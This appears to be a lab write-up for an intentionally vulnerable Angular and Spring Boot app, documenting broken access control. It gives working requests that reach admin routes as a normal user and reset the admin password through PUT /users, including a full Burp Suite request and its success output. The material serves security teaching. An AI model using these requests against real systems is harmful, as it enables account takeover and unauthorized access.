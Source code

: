 # Broken Access Control
Broken Access Control doesn't or improperly verifies authorities/permissions to a resource.  Devastating loss of confidentiality, integrity, and potentially availability may occur depending on the resource not assessed correctly.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _Admin.guard & PUT /users_

The Angular application and SpringBoot both have Broken Access Control.  Angular incorrectly validates Admin-level locations by checking if the user is authenticated _or_ ADMIN-ROLE (admin or authenticated) instead of authenticated _and_ ADMIN-ROLE (admin and authenticated), ultimately allowing normal authenticated users to access these resources.  SpringBoot, while checks for authentication, does not utilize username of authenticated user to change passwords.  This means that any user can change another user's password if they know the username.  Below are two exploitation examples, one connecting to an admin resource as a normal authenticated user (Angular) and the other changing another user's password (SpringBoot):

*Angular Broken Access Control*

    GET http://localhost:4200/admin/products


Successful exploitation looks like:
![Alt text](../images/bac.png?raw=true "Angular Broken Access Control")

*SpringBoot Broken Access Control*

    PUT /users
    raw:
    {
        "username":"admin",
        "newPassword":"password1!"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation

    PUT /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 47
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: JSESSIONID=D5FE8244B27DF4207B4BEC89ABE97921
    Connection: close

    {"username":"admin","newPassword":"password1!"}

